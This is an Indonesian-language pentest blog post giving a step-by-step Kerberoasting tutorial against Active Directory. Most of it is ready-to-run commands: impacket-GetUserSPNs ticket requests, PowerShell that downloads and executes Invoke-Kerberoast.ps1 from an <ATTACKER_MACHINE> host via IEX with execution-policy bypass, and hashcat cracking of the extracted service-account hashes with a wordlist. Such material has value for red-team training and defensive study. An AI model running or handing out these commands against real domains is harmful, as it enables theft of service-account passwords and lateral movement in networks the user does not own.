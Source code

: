 ```yaml
---
title: Kerberoasting Attack!
author: "novran"
date: 2024-11-22 00:00:00 +0700
categories: [Active Directory Pentest]
tags: [Active Directory Pentest, Red Team]
mermaid: true
image:
  path: /images/2024-11-22-kerberoasting-like-a-boss.png
  alt: Kerberoasting
---
```


Kerberoasting adalah sebuah **teknik serangan pada jaringan Active Directory** yang _memanfaatkan kelemahan protokol Kerberos_. Dalam serangan ini, penyerang yang sudah berhasil memiliki akses tidak sah ke akun domain (pengguna biasa dengan privilege rendah) dapat meminta **Ticket-Granting Service (TGS)** untuk layanan tertentu, seperti Database (MSSQL) atau Web Server (IIS).

Tiket TGS ini berisi Hash (yang mengandung password) milik akun layanan (Service Account) tersebut. Penyerang kemudian dapat mengekstrak Hash-nya dan mencoba memecahkannya secara **Offline** menggunakan metode **Brute Force** untuk mendapatkan kata sandi aslinya.

Jika berhasil, penyerang dapat menggunakan akun layanan tersebut untuk melakukan **Lateral Movement** atau berpindah akses dari satu akun ke akun lainnya, misalnya dari akun pengguna biasa `john.doe` ke akun layanan seperti `sql_svc`. Hal ini membuka jalan baru bagi penyerang untuk meningkatkan akses dan bertindak lebih jauh lagi.

## 1. Steal the Ticket

### Remote Execution

```bash
impacket-GetUserSPNs <domain>/<username>:<password> -request -dc-ip <ip domain controller>
```

### Local Execution via Compromised Machine

Di tutorial ini saya menggunakan [Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1) untuk memperoleh tiket.

```bash
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```

```bash
python3 -m http.server 80
```

**Mengeksekusi di local**

```powershell
iwr -uri http://<ATTACKER_MACHINE>/Invoke-Kerberoast.ps1 -outfile Invoke-Kerberoast.ps1
```

```powershell
powershell -ep bypass
. .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat HashCat | Select-Object -ExpandProperty hash
```

**Mengeksekusi menggunakan Invoke Expression**

```powershell
## PowerShell
IEX (New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_MACHINE>/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat HashCat | Select-Object -ExpandProperty hash

## CMD
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_MACHINE>/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat HashCat | Select-Object -ExpandProperty hash"
```

## 2. Crack the Ticket

Simpan semua hash yang berhasil diperoleh ke sebuah file (sebagai contoh di sini menggunakan nama file `kerberoast.hashes`).

```bash
hashcat -m 13100 kerberoast.hashes /usr/share/wordlists/rockyou.txt
```

![Hashcat](/images/2024-11-22-kerberoasting-hashcat.png)
